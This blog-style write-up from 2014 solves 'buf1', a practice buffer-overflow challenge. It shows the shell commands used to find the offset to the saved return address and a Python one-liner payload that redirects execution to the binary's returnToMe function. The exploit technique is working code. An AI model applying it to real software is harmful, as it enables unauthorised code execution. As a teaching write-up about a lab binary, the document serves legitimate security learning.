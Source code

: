 buf1 - Another Buffer Overflow Challenge
========================================
date: 24/Feb/2014
summary: This is another buffer overflow challenge I found online. I posted a writeup on a similar challenge buf0 earlier and one for this challenge was long due. Finally today I got some time to document the solution.
tags: buffer overflow, writeups, reversing

The binary can be obtained from here: [buf1](/static/files/buf1.bin). Let's see
what `file` command has to tell us about this challenge file:

```shell
$ file buf1.bin
buf1.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x746bc251bceb3d50b635362140ec851bf6f85317, not stripped
```

So this binary, like it's [counterpart](/2014/buf0-challenge.html), is
also an x86 ELF with symbols included. Let's run `strings` as well over
this file:

```shell
$ strings buf1.bin
/lib/ld-linux.so.2
ktP=
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

There's the `gets` syscall and the `W00T!` string which confirm that
this indeed is very similar to the previous challenge. Before we execute
this file, let's do some static analysis on it using IDA:

![image](/static/files/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting
function called `returnToMe` at location 0x08048404. Let's follow this
function and see what is it doing:

![image](/static/files/ida-returntome.png)

Let's figure out the size of the buffer to know how many bytes would be
needed to reach saved EIP:

```shell
$ python -c 'print "A"*40' | ./buf1.bin
$ python -c 'print "A"*50' | ./buf1.bin
$ python -c 'print "A"*60' | ./buf1.bin
$ python -c 'print "A"*70' | ./buf1.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*65' | ./buf1.bin
$ python -c 'print "A"*66' | ./buf1.bin
Illegal instruction (core dumped)
$
$ python -c 'print "A"*67' | ./buf1.bin
Segmentation fault (core dumped)
```

So, the binary accepts max 66B before `gets` overwrites saved EIP. Now
we can inject the buffer with dummy input followed by the address of
`returnToMe` function:

```shell
$ python -c 'print "A"*66 + "\x04\x84\x04\x08"' | ./buf1.bin
W00T!
Segmentation fault (core dumped)
```

Done. But this time the program didn't exit cleanly. However, the
challenge was to get the `returnToMe` function called and it was done
successfully. But it's not always about completing challenges. Let's
take it as a learning opportunity and understand why, being so similar,
both challenges exited in different manner. To understand this and other
such minute intricacies of buffer overflows read my previous posts
starting with: [Gera's Warming Up on Stack #1 -
Solutions](/2012/geras-wuos-stack1-solutions.html).
